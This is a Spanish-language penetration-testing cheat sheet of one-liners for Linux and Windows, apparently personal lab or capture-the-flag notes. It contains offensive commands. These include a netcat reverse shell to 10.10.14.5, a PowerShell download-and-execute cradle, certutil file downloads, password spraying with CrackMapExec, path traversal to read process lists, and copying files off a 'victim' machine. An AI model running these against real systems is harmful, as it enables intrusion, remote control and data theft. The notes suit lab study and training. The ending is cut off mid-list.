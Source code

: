 ## Expresion regulares 
**Expresion regular para añadir texto antes de cada oracion:** ``sed -E 's/^(.*)/Texto a añadir \1/g;s/\r//'``
**Expresion regular para eliminar espacios en blanco de un texto:** `/^\s*$/d`
**Expresion regular para filtrar por rangos con awk**: `awk "/' -/,/:cannot open/" `
## Linux
**Reverse Shell; MKFIFO**: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1| nc 10.10.14.5 443 >/tmp/f;`
**Reutilizar contraseña para todos los usuarios en el sistema con CME(crackmapexec)**: `-u users -p '<password>' --continue-on-success`
**Ejecutar comandos desde consola interactiva de Python3 y ver el output**:`print(os.popen(""$command")).read())`
**Mandar binarios de maquina victima a maquina atacando con SSH**: `sshpass -p '$passwd' scp $user@$ip:/path/to/binary .`
**Conseguir la fecha, hora, segundo y año(linux):** `date +%F_%H:%M:%S `
**Listar PID de procesos activos:** `"http://10.10.11.201:8000/?page=../../../../proc/$i/cmdline" -o -`
**Buscar por archivos con palabra determinada:** `find -name \*config\* 2>/dev/null | xargs cat`
## Windows
**Tirar de la ruta nativa de powershell en caso de obtener acceso denegado**: `C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell` o  `C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell`
**Vaciar el contenido de un archivo con cmd**: `<cmd /c> "copy /y NUL clean.bat"`
**Descargar e intrepretar archivo powershell(invoke)**: `<powershell> IEX(New-Object Net.WebClient).downloadString('http://<ip>/<PsScript>')` 
**Descargar archivos con certutil**: `certutil.exe -f -urlcache -split http://<ip>/<file> <name>`
**Para listar drivers existentes**: `driverquery`
**Filtrar por las flags en maquinas windows**: `cmd /c dir /r /s $flag.txt`
**Convertir un archivo a b64 con certutil para su posterior decode**: `certutil.exe -encode root.exe root.exe.b64`
**Para saber la version de windows:** `reg query "hklm\software\microsfot\windows nt\currentversion" /v ProductName`
**Listar contenido oculto:** `dir -Force`
**Listar reglas de firewall:** `netsh advfirewall show currentprofile`
**Listar permisos de un archivo:** `icacls archivo`
## Grupos y los privilegios que tienen(linux)
**Privilegios:**
1. **ADM**. Permite leer logs.
i=1; for folder in $(ls -d */); do mv "$folder" "$i.$folder"; i=$((i+1)); if [ $i -gt 10 ]; then break; fi; done

